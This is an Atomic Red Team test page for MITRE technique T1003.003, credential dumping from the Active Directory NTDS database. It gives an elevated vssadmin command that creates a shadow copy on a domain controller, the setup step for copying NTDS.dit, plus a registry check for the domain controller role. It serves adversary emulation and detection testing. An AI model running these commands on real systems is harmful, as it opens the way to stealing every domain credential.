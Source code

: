 ```yaml
---
tags: [T1003_003, atomic_test]
filename: "[[T1003.003 - OS Credential Dumping- NTDS]]"
---
```

# T1003.003 - OS Credential Dumping: NTDS

## Atomic Test #1 - Create Volume Shadow Copy with vssadmin
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** dcebead7-6c28-4b4b-bf3c-79deb1b1fc7f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | string | C:|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe create shadow /for=#{drive_letter}
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>
